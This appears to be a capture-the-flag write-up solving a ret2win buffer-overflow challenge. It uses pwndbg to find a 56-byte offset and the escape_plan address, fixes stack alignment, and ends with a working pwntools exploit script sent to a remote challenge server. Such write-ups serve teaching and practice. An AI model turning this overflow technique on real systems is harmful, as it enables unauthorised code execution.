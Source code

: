 ```ret2win``` confirmed!

Next step is dynamic analysis to confirm the offset. There is no better tool for this than ```pwndbg```. Loading the binary, we can generate a cyclical string in accordance with the bit architecture to help us identify the correct offset.
```
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

Now let's set a break point before the return function use the string as input. 
```
0x401602 <main+509>    ret    <0x6161616161616168>
```

We can use the ```cyclic``` command again to get the offset.
```
pwndbg> cyclic -l haaaaaaa
Finding cyclic pattern of 8 bytes: b'haaaaaaa' (hex: 0x6861616161616161)
Found at offset 56
```

So we know that the offset is 56 bytes, but now we need the address of the ```escape_plan``` function. We can type ```info fun``` into the ```pwndbg``` console to get a list of function addresses.
```
0x0000000000401255  escape_plan
```

Perfect, now we have our payload. We can use a inline python command to generate a payload and enter it pass it to the binary in ```pwndbg```.
```
python2 -c 'print "69\n" + "A" * 56 + "\x55\x12\x40\x00\x00\x00\x00\x00"' > payload_test
```

Now pass it to the program in ```pwndbg```.
```
0x401602 <main+509>          ret                                  <0x401255; escape_plan>
```

Unfortunately, we get a segmentation fault when we call the ```fwrite``` in the ```escape_plan``` function. This is due to a stack alignment error. To correct this, we just need to add the return address of main just before the payload.
```
python2 -c 'print "69\n" + "A" * 56 + "\x02\x16\x40\x00\x00\x00\x00\x00" "\x55\x12\x40\x00\x00\x00\x00\x00"' > payload_test
```

And voila, it works! Now for the exploit.
```python
#!/usr/bin/env python2

from pwn import *

IP = '161.35.168.118'
PORT = 31858

r = remote(IP, PORT)

payload = "69\n" + "A" * 56 + "\x02\x16\x40\x00\x00\x00\x00\x00" + "\x55\x12\x40\x00\x00\x00\x00\x00"

r.sendline(payload)

r.interactive()
```
